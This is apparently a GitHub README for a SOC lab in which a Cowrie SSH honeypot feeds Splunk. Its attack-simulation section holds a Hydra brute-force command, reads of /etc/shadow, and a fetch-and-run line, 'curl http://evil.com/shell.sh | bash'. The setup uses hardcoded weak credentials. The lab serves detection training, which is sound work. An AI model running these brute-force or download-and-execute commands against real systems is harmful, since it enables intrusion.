<div align="center">

# 🍯 SOC Honeypot Detection Lab



<br/>

[](https://www.splunk.com)
[](https://github.com/cowrie/cowrie)
[](https://rockylinux.org)
[](https://www.kali.org)
[](https://attack.mitre.org)

> **A hands-on SOC lab featuring a Cowrie SSH honeypot monitored by Splunk SIEM.** Covers full lifecycle: infrastructure deployment on Rocky Linux 9.7, SSH honeypot setup, adversary simulation with Hydra & manual SSH exploitation, and real-time detection & log analysis in Splunk Enterprise.

</div>

---

## 📋 Table of Contents

1. [Project Overview](#-project-overview)
2. [Lab Architecture](#-lab-architecture)
3. [Phase 1 — Virtual Infrastructure](#%EF%B8%8F-phase-1--virtual-infrastructure)
4. [Phase 2 — Splunk SIEM Setup](#-phase-2--splunk-siem-setup)
5. [Phase 3 — Cowrie SSH Honeypot Setup](#-phase-3--cowrie-ssh-honeypot-setup)
6. [Phase 4 — Splunk Universal Forwarder](#-phase-4--splunk-universal-forwarder)
7. [Phase 5 — Attack Simulation (Red Team)](#%EF%B8%8F-phase-5--attack-simulation-red-team)
8. [Phase 6 — Detection & Analysis (Blue Team)](#-phase-6--detection--analysis-blue-team)
9. [Attack vs Detection Mapping](#-attack-vs-detection-mapping)
10. [Key Skills & Tools](#-key-skills--tools)
11. [Key Takeaways](#-key-takeaways)

---

## 🔍 Project Overview

This project builds a **production-style SOC detection lab** around a Cowrie SSH honeypot — a medium-interaction deception technology that mimics a real Linux server to lure, trap, and log attacker activity in full detail.

Unlike traditional endpoint-based detection, honeypots provide **offensive intelligence**: every connection is malicious by definition, generating zero false positives. All captured events are forwarded in real time to **Splunk Enterprise** for correlation, alerting, and forensic analysis.

**What this lab demonstrates:**

- Deploying and tuning a Cowrie SSH honeypot on Rocky Linux 9.7
- Configuring Splunk Enterprise as a centralized SIEM on a separate Rocky Linux instance
- Using Splunk Universal Forwarder to ship honeypot JSON logs to Splunk in real time
- Simulating realistic SSH brute-force and post-exploitation attacks from Kali Linux
- Detecting, correlating, and investigating every attack phase inside Splunk

**Core Stack:**

| Category | Tool | Purpose |
|:---------|:-----|:--------|
| SIEM | **Splunk Enterprise** | Log aggregation, search, dashboards |
| Log Shipping | **Splunk Universal Forwarder** | Real-time log forwarding |
| Honeypot | **Cowrie** | SSH deception & attacker logging |
| OS (Both VMs) | **Rocky Linux 9.7** | RHEL-based enterprise Linux |
| Attack Platform | **Kali Linux** | Red team operations |
| Brute Force | **Hydra** | SSH credential attacks |

---

## 🏗️ Lab Architecture

```
┌─────────────────────────────────────────────────────────────────┐
│                     VMnet (Internal LAN)                        │
│                                                                 │
│  ┌──────────────────────┐        ┌──────────────────────────┐  │
│  │   Splunk Enterprise  │◄───────│   Cowrie SSH Honeypot    │  │
│  │   Rocky Linux 9.7    │  9997  │   Rocky Linux 9.7        │  │
│  │   192.168.49.131     │        │   192.168.49.132         │  │
│  │   4 GB RAM / 2 Core  │        │   1 GB RAM / 1 Core      │  │
│  │   Port: 8000 (Web)   │        │   Port: 2222 (SSH Trap)  │  │
│  └──────────────────────┘        └──────────────────────────┘  │
│             ▲                               ▲                   │
│             └───────────────────────────────┘                   │
│                          attacks                                │
│                    ┌─────────────┐                              │
│                    │ Kali Linux  │                              │
│                    │ (Attacker)  │                              │
│                    └─────────────┘                              │
└─────────────────────────────────────────────────────────────────┘
```

**Data Flow:**
```
Attacker (Kali) ──SSH:2222──► Cowrie Honeypot
                                     │
                             cowrie.json logs
                                     │
                       Splunk Universal Forwarder
                                     │ TCP:9997
                          Splunk Enterprise SIEM
                                     │
                    index=main sourcetype=cowrie
```

---

## ⚙️ Phase 1 — Virtual Infrastructure

### VM Resource Allocation

| VM | OS | Role | RAM | CPU | Disk | IP |
|:---|:---|:-----|:----|:----|:-----|:---|
| **Splunk Server** | Rocky Linux 9.7 | SIEM | 4 GB | 2 Core | 60 GB | 192.168.49.131 |
| **Honeypot** | Rocky Linux 9.7 | Cowrie SSH Trap | 1 GB | 1 Core | 20 GB | 192.168.49.132 |
| **Kali Linux** | Kali (WSL) | Attacker | — | — | — | 192.168.49.1 |

> 💡 Both servers run **Rocky Linux 9.7 Minimal ISO** — no GUI, server-only. This mirrors real enterprise Linux environments and keeps RAM usage minimal.

### Rocky Linux Installation — Splunk Server

<table>
<tr>
<td><br/><sub>Installation summary — Splunk server</sub></td>
<td><br/><sub>Installation in progress</sub></td>
</tr>
</table>

### Rocky Linux Installation — Honeypot Server

<table>
<tr>
<td><br/><sub>Installation summary — Honeypot server</sub></td>
<td><br/><sub>Installation in progress</sub></td>
</tr>
</table>

---

## 📊 Phase 2 — Splunk SIEM Setup

Splunk Enterprise was installed on the dedicated Rocky Linux server to serve as the centralized SIEM for the lab.

### 2.1 Installation & Start

Splunk Enterprise `.rpm` was downloaded from [splunk.com](https://www.splunk.com/en_us/download/splunk-enterprise.html) and installed:

```bash
sudo mkdir -p /opt/splunk
sudo rpm -i splunk-10.2.3-*.x86_64.rpm
sudo /opt/splunk/bin/splunk start --accept-license --run-as-root
sudo /opt/splunk/bin/splunk enable boot-start
```





### 2.2 Firewall — Open Web Port 8000

```bash
sudo firewall-cmd --permanent --add-port=8000/tcp
sudo firewall-cmd --reload
```



### 2.3 Splunk Web Dashboard

Splunk web interface at `http://192.168.49.131:8000`:


### 2.4 Configure Receiving Port 9997

Splunk was configured to receive forwarded data on TCP port 9997:

```bash
sudo /opt/splunk/bin/splunk enable listen 9997 --run-as-root
sudo firewall-cmd --permanent --add-port=9997/tcp
sudo firewall-cmd --reload
```





---

## 🍯 Phase 3 — Cowrie SSH Honeypot Setup

Cowrie is a medium-interaction SSH honeypot that emulates a real Linux shell. Every connection, login attempt, command entered, and file downloaded is logged in structured JSON — perfect for SIEM ingestion.

### 3.1 Create Dedicated Cowrie User

```bash
sudo useradd -m cowrie
sudo su - cowrie
```



### 3.2 Install Dependencies

```bash
sudo dnf install -y git python3.11 python3.11-pip libffi-devel openssl-devel
```

<table>
<tr>
<td><br/><sub>Installing Python 3.11 and dependencies</sub></td>
<td><br/><sub>Setting up virtual environment</sub></td>
</tr>
</table>

> ⚠️ **Important:** Cowrie requires Python 3.10+. Rocky Linux 9.7 ships with Python 3.9 by default — `python3.11` must be explicitly installed via `dnf`.

### 3.3 Clone & Install Cowrie

```bash
git clone https://github.com/cowrie/cowrie.git
cd cowrie
python3.11 -m venv cowrie-env
source cowrie-env/bin/activate
pip install --upgrade pip
pip install -r requirements.txt
pip install --editable .
```

<table>
<tr>
<td><br/><sub>Upgrading pip inside virtualenv</sub></td>
<td><br/><sub>Installing Cowrie in editable mode</sub></td>
</tr>
</table>

### 3.4 Configure Cowrie

```bash
cp etc/cowrie.cfg.dist etc/cowrie.cfg
nano etc/cowrie.cfg
```

Key configuration:

```ini
[honeypot]
hostname = server01
listen_endpoints = tcp:2222:interface=0.0.0.0
```

Create `userdb.txt` — defines credentials Cowrie accepts (simulating weak passwords):

```
root:x:123456
root:x:12345
root:x:password
root:x:admin
admin:x:admin
```



### 3.5 Start Cowrie & Open Firewall

```bash
source cowrie-env/bin/activate
twistd -n cowrie
```

```bash
# In a separate root terminal
sudo firewall-cmd --permanent --add-port=2222/tcp
sudo firewall-cmd --reload
```



Cowrie starts listening on **port 2222**:
```
2026-05-10T12:30:45+0400 [-] CowrieSSHFactory starting on 2222
2026-05-10T12:30:45+0400 [-] Ready to accept SSH connections
```

### 3.6 Fix Permissions for Splunk Log Access

`splunkfwd` user needs read access to Cowrie's log directory:

```bash
sudo chmod 755 /home/cowrie
sudo chmod 755 /home/cowrie/cowrie
sudo chmod 755 /home/cowrie/cowrie/var
sudo chmod 755 /home/cowrie/cowrie/var/log
sudo chmod 755 /home/cowrie/cowrie/var/log/cowrie
sudo chmod 644 /home/cowrie/cowrie/var/log/cowrie/cowrie.json
```



---

## 📡 Phase 4 — Splunk Universal Forwarder

The Splunk Universal Forwarder is a lightweight agent installed on the honeypot VM. It monitors Cowrie's JSON log file and ships new events to Splunk Enterprise in real time over TCP port 9997.

### 4.1 Download & Install

```bash
sudo mkdir -p /opt/splunkforwarder
sudo rpm -i splunkforwarder-10.2.3-*.x86_64.rpm
```



### 4.2 Start Forwarder

```bash
sudo /opt/splunkforwarder/bin/splunk start --accept-license \
  --answer-yes --no-prompt --seed-passwd Admin123!
```



### 4.3 Add Forward Server & Monitor Log File

```bash
# Point to Splunk SIEM server
sudo /opt/splunkforwarder/bin/splunk add forward-server 192.168.49.131:9997 \
  -auth admin:Admin123!

# Monitor Cowrie JSON log
sudo /opt/splunkforwarder/bin/splunk add monitor \
  /home/cowrie/cowrie/var/log/cowrie/cowrie.json \
  -index main -sourcetype cowrie -auth admin:Admin123!

# Restart to apply
sudo /opt/splunkforwarder/bin/splunk restart
```



**Verified log pipeline:**
```
cowrie.json → Splunk Forwarder → 192.168.49.131:9997 → index=main sourcetype=cowrie
```

---

## ⚔️ Phase 5 — Attack Simulation (Red Team)

All attacks were launched from **Kali Linux** against the Cowrie honeypot at `192.168.49.132:2222`. Every technique is mapped to **MITRE ATT&CK**.

---

### 5.1 SSH Brute Force — Hydra

**Hydra** brute-forced SSH credentials using `rockyou.txt`:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.49.132 -t 64 -V
```



**Result:** Valid credentials discovered instantly — `12345`, `123456789`, `password`. Cowrie accepted and logged every attempt.

> **MITRE:** [T1110.001 — Brute Force: Password Guessing](https://attack.mitre.org/techniques/T1110/001/)

---

### 5.2 Manual SSH Login Attempts

Targeted manual login attempts simulating an attacker testing common credentials:



> **MITRE:** [T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/)

---

### 5.3 Post-Exploitation — Reconnaissance

After gaining shell access, full attacker recon sequence was executed:

#### User & System Enumeration

```bash
whoami
id
cat /etc/passwd
```



#### Credential & Process Discovery

```bash
cat /etc/shadow
ps aux
```



#### Network Recon & Tool Transfer Simulation

```bash
netstat -an
wget http://192.168.49.1/malware.exe
curl http://evil.com/shell.sh | bash
echo "hacked" > /tmp/pwned.txt
cat /tmp/pwned.txt
history
```



> **MITRE:** [T1059](https://attack.mitre.org/techniques/T1059/) | [T1049](https://attack.mitre.org/techniques/T1049/) | [T1105](https://attack.mitre.org/techniques/T1105/)

---

### 5.4 Cowrie — Live Event Logging

Cowrie terminal showed all events in real time during the attacks:

<table>
<tr>
<td><br/><sub>Cowrie terminal — live events</sub></td>
<td><br/><sub>SSH session events in detail</sub></td>
</tr>
</table>

**Sample Cowrie JSON log entries:**

```json
{"eventid":"cowrie.login.failed","username":"root","password":"123456",
 "src_ip":"192.168.49.1","timestamp":"2026-05-10T12:54:33Z"}

{"eventid":"cowrie.login.success","username":"root","password":"12345",
 "src_ip":"192.168.49.1","timestamp":"2026-05-10T12:54:33Z"}

{"eventid":"cowrie.command.input","input":"cat /etc/passwd",
 "src_ip":"192.168.49.1","timestamp":"2026-05-10T12:55:01Z"}
```

---

## 🛡️ Phase 6 — Detection & Analysis (Blue Team)

All attack events were ingested into Splunk Enterprise in real time. Splunk's Search & Reporting enabled full forensic reconstruction of the attack chain.

---

### 6.1 Cowrie Events Arriving in Splunk

First confirmation of events flowing from honeypot to SIEM:



```
index=main sourcetype=cowrie
```

---

### 6.2 Event Analysis — Messages & Timeline

Splunk auto-parsed all Cowrie JSON fields:



**Key auto-extracted fields:**

| Field | Description |
|:------|:------------|
| `eventid` | Event type (connect, login.failed, login.success, command.input) |
| `src_ip` | Attacker IP address |
| `username` | Attempted username |
| `password` | Attempted password (plaintext) |
| `input` | Command entered in honeypot shell |
| `session` | Unique session ID |
| `timestamp` | Precise event time |

---

### 6.3 Credential Harvesting — Usernames & Passwords

Every username/password combination the attacker tried, visible in Splunk:



```
index=main sourcetype=cowrie eventid=cowrie.login.failed OR eventid=cowrie.login.success
| table _time, src_ip, username, password, eventid
| sort _time
```

---

### 6.4 Attacker Command Forensics

Every shell command the attacker ran, captured and searchable in Splunk:



```
index=main sourcetype=cowrie eventid=cowrie.command.input
| table _time, src_ip, session, input
| sort _time
```

Full post-exploitation sequence reconstructed:
`whoami` → `id` → `cat /etc/passwd` → `cat /etc/shadow` → `ps aux` → `netstat -an` → `wget` → `curl` → `echo` → `history`

---

## 📊 Attack vs Detection Mapping

| # | Attack Step | Tool | Cowrie Event ID | Splunk Detection | MITRE |
|:--|:------------|:-----|:----------------|:-----------------|:------|
| 1 | **SSH Brute Force** | Hydra | `cowrie.login.failed` | Mass failed logins from single IP | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) |
| 2 | **Credential Access** | Hydra | `cowrie.login.success` | Successful login with weak password | [T1078](https://attack.mitre.org/techniques/T1078/) |
| 3 | **User Enumeration** | SSH shell | `cowrie.command.input` | `whoami`, `id`, `cat /etc/passwd` | [T1033](https://attack.mitre.org/techniques/T1033/) |
| 4 | **Credential Dumping** | SSH shell | `cowrie.command.input` | `cat /etc/shadow` | [T1003](https://attack.mitre.org/techniques/T1003/) |
| 5 | **Process Discovery** | SSH shell | `cowrie.command.input` | `ps aux` | [T1057](https://attack.mitre.org/techniques/T1057/) |
| 6 | **Network Discovery** | SSH shell | `cowrie.command.input` | `netstat -an` | [T1049](https://attack.mitre.org/techniques/T1049/) |
| 7 | **Tool Transfer** | SSH shell | `cowrie.command.input` | `wget`, `curl` | [T1105](https://attack.mitre.org/techniques/T1105/) |
| 8 | **Session Tracking** | Cowrie | `cowrie.session.connect/closed` | Full session duration & metadata | [T1021.004](https://attack.mitre.org/techniques/T1021/004/) |

---

## 🧠 Key Skills & Tools

### Blue Team

| Category | Tool / Skill |
|:---------|:-------------|
| **SIEM** | Splunk Enterprise — SPL queries, field extraction, dashboards |
| **Log Shipping** | Splunk Universal Forwarder — real-time JSON forwarding |
| **Honeypot** | Cowrie — SSH deception, session logging, command capture |
| **OS** | Rocky Linux 9.7 (RHEL-based) — enterprise Linux administration |
| **Forensics** | JSON log analysis, credential harvesting, command forensics |
| **Networking** | `firewall-cmd`, TCP port configuration, log pipeline architecture |

### Red Team

| Category | Tool / Skill |
|:---------|:-------------|
| **Brute Force** | Hydra — SSH attacks with `rockyou.txt` |
| **Initial Access** | Manual SSH login with discovered credentials |
| **Post-Exploitation** | Shell recon, enumeration, tool transfer simulation |
| **Platform** | Kali Linux |

---

## 📚 Key Takeaways

1. **Honeypots generate zero false positives** — every connection is malicious by definition, making them uniquely powerful for high-fidelity alerting compared to signature-based systems.

2. **Cowrie captures what EDR misses** — plaintext passwords, exact commands, tool download attempts, and full session metadata are all logged with zero agent on the attacker's side.

3. **Splunk auto-parses structured JSON** — Cowrie's JSON logs required no manual field extraction configuration, making complex SPL queries immediately available.

4. **Weak SSH credentials are exploited in seconds** — Hydra cracked `12345`, `password`, `123456789` almost instantly. Account lockout and strong password policies are non-negotiable.

5. **Rocky Linux is enterprise-ready** — deploying on RHEL-based Rocky Linux 9.7 mirrors real-world SOC infrastructure and adds practical `dnf`, `firewall-cmd`, and `systemd` experience.

6. **Log forwarding architecture matters** — the Splunk Universal Forwarder → Splunk Enterprise pipeline demonstrates a core enterprise SIEM pattern used in production SOCs globally.

---

## 🚨 Recommendations

| Priority | Finding | Recommendation |
|:---------|:--------|:---------------|
| 🔴 Critical | SSH accessible with weak passwords | Enforce strong password policy + account lockout |
| 🔴 Critical | Root login allowed over SSH | Disable root SSH (`PermitRootLogin no`) |
| 🟠 High | No MFA on SSH | Deploy SSH key-based auth or MFA |
| 🟠 High | Port 22 exposed broadly | Restrict SSH to trusted IPs via firewall |
| 🟡 Medium | No rate limiting on SSH | Deploy `fail2ban` or equivalent |
| 🟡 Medium | `cat /etc/shadow` accessible | Enforce proper file permissions and PAM |

---

<div align="center">

**Built with 🍯 for deception, detection, and the art of threat hunting.**

*All attacks were performed in an isolated lab environment against intentionally deployed honeypot infrastructure. Never perform attack simulations without proper authorization.*

</div>
